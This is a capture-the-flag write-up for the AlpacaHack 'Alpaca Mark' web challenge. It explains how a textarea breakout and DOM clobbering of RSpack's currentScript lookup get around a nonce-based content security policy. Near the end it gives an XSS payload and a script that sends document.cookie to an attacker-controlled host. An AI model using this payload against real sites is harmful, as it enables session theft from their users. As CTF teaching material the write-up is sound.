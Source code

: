 ---
title: 'AlpacaHackCTF-2025'
description: 'writeups for Alpaca Hack CTF WEB round 8 solo ctf'
date: 2025-05-17
image: './alpaca.png'
---

# Introduction Alpaca mark

alpaca mark is a web client side challenge that is Simple markdown noting taking application with EJS backend.


## Unintended solution

tldr , break out of `<textarea/>` template to get html injection. [RSpack](https://github.com/advisories/GHSA-84jw-g43v-8gjm) third party package is vulnerable to Dom clobbering. 
Use the Dom clobbering to load our own script to allow the csp to get xss.


```JavaScript
app.get("/", (req, res) => {
  const nonce = crypto.randomBytes(16).toString("base64");
  res.setHeader(
    "Content-Security-Policy",
    `script-src 'strict-dynamic' 'nonce-${nonce}'; default-src 'self'; base-uri 'none'`
  );

  const markdown = req.query.markdown?.slice(0, 512) ?? DEFAULT_MARKDOWN;
  res.render("index", {
    nonce,
    markdown,
  });
});
```

Html isn't filtered so there's potential to get xss but the csp is strict and has a random nonce.
 In these kind of scenarios the only way to get xss with a random nonce csp is we have to find a script gadget that will load our own script in.

```html
 <!DOCTYPE html>
<html>
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width,initial-scale=1.0" />
    <title>AlpacaMark</title>
    <script nonce="<%= nonce %>" src="/main.js" defer></script>
    <link href="/main.css" rel="stylesheet" />
  </head>
  <body>
    <main class="container">
      <h1>AlpacaMark</h1>
      <div id="previewElm"></div>
      <form id="renderElm" action="/" method="get">
        <textarea name="markdown" required><%- markdown %></textarea>
        <button type="submit">Render</button>
      </form>
    </main>
  </body>
</html>
```

Since there isn't hmtl or markdown filtering we can break out of the textarea then include our own Html like this: `</textarea> html injection` . 
No need to close it since the browser will automatically do it when it renders. 

Now we have to find a script gadget which I struggled at first because I couldn't find it in the given source code. 
I noticed that the client side code uses a third party package RSpack.

```JavaScript
import { defineConfig } from "@rspack/cli";  
  
export default defineConfig({  
entry: {  
main: "./client/index.js",  
},  
experiments: {  
css: true,  
},  
devtool: false,
```

I decided to start debugging and looking through the client side code with devtools perhaps we could find a script in there. It was a bit difficult to read and debug since its minified code but I just grepped `script` and set a few breakpoints. 
we do indeed find something :  

![Alt text for the image](./devtools.png)


In main.js RSpack attempts to load a external script called `5.js` dynamically with this code :


 ```JavaScript
 ( () => {
        r.g.importScripts && (e = r.g.location + "");
        var e, t = r.g.document;
        if (!e && t && (t.currentScript && "SCRIPT" === t.currentScript.tagName.toUpperCase() && (e = t.currentScript.src),
        !e)) {
            var n = t.getElementsByTagName("script");
            if (n.length)
                for (var s = n.length - 1; s > -1 && (!e || !/^http(s?):/.test(e)); )
                    e = n[s--].src
        }
        if (!e)
            throw Error("Automatic publicPath is not supported in this browser");
        r.p = e = e.replace(/^blob:/, "").replace(/#.*$/, "").replace(/\?.*$/, "").replace(/\/[^\/]+$/, "/")
    }
    )(),
    ```

 The end result here is to note that it automatically determines the base path where assets should be loaded from, based on the location of the currently executing script.


I thought maybe since we have dom clobbering we could use it to insert our own script but looking at this code it actually tries to stop against Dom clobbering: 

```JavaScript
(t.currentScript && "SCRIPT" === t.currentScript.tagName.toUpperCase() && (e = t.currentScript.src),
        !e)) {
            var n = t.getElementsByTagName("script");
            ```
But this isn't fully mitigated! If we clobber `currentScript` the check will fail but will then check all script tags on the page document and load scripts from the base url found in the script tags. 
Also if you look at the html source code we can see that main.js will load after our payload renders because `main.js` is loaded with `defer`. 
So essentially we can hijack `5.js `if we name our script that and once it renders , `main.js` will load after due to using `defer` then RSpack will load our script.


 a payload like this should work :

```JavaScript
</textarea><img name="currentScript"><script src="https://oursite/5.js"></script>
```

in 5.js :
```JavaScript
top.location = 'https://oursite/flag?' + document.cookie 
```

submit that to the admin bot and we should get the flag : `Alpaca{the_DOM_w0rld_is_po11uted_and_clobber3d}`

the intended solution apparently involved a prototype pollution but I'm not sure how that would work in this challenge will have to wait on the author :)